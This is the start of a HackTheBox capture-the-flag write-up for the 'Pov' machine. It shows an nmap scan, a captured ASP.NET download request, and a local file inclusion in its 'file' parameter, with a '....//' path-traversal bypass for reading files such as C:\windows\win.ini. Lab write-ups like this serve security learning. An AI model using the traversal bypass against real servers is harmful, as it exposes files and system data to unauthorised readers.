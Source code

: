 # HackTheBox Pov Writeup
## Nmap
```
Nmap scan report for 10.10.11.251
Host is up, received user-set (0.014s latency).
Scanned at 2024-02-20 13:49:57 +08 for 155s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: E9B5E66DEBD9405ED864CAC17E2A888E
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: pov.htb
|_http-server-header: Microsoft-IIS/10.0
```

### LFI
![pov1](https://github.com/ngohuiann/CTF-Write-Ups/blob/main/image/pov1.png)

dev.pov.htb download CV button generate this request:
```
POST /portfolio/default.aspx HTTP/1.1
Host: dev.pov.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 373
Origin: http://dev.pov.htb
Connection: close
Referer: http://dev.pov.htb/portfolio/default.aspx
Upgrade-Insecure-Requests: 1

__EVENTTARGET=download&__EVENTARGUMENT=&__VIEWSTATE=DAsrQy2PiX5KXtsNF4kDsu5N%2BdzCpkMawb5RGKK2jE9Ib1cqLXmSkDJFVuSLpnFGy42fvDQIQ%2BM4UNG84A9ADXmHZV8%3D&__VIEWSTATEGENERATOR=8E0F0FA3&__EVENTVALIDATION=GU%2F9W%2BTIKmqI67CcoIuM9cVEupmKIkWHSIH7STIYe2%2F98bqu8u2yf9qPKhgQ2okH9EAcOgB243e%2BaS4XYn3bwjWrnH4g3ByuUxIOSQER88Q%2F4FAoE9FtdJH0jmKFG1ipF84l2g%3D%3D&file=index.aspx.cs
```
![pov2](https://github.com/ngohuiann/CTF-Write-Ups/blob/main/image/pov2.png)

The file parameter is vulnerable to LFI, read source code by inserting default.aspx. It is shown that "../" is being sanitized. But we can bypass this with "....//" or just specified the full path (eg. C:\windows\win.ini)



